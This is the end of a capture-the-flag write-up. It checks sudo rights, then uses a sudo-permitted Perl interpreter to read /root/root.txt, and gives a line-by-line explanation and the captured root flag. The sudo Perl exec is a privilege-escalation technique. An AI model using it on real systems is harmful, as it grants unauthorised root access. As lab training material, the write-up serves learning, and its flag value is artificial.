


Now let's check, from this user, whether we can execute root commands without credentials.
```bash
$ sudo-l
```



So we can do this to get the root Flag:
```bash
$ sudo /usr/bin/perl -e 'exec "cat /root/root.txt"'
```
`sudo`: Executes the command with root (superuser) privileges.
- `/usr/bin/perl`: Calls the Perl interpreter from its full path.
- `-e`: Allows you to execute Perl code directly from the command line.
  - `exec` replaces the current Perl process with another command.
  - `cat /root/root.txt` displays the contents of the file located in the root user's directory.
  
If the user has permission to run Perl with `sudo`, this command will read and print the contents of `/root/root.txt`, which is typically only accessible by the root user.
  
  

  ```bash
  Root Flag → 5c3a0c73a039d3b59b232792af3b20fb
  ```


[Back](README.md)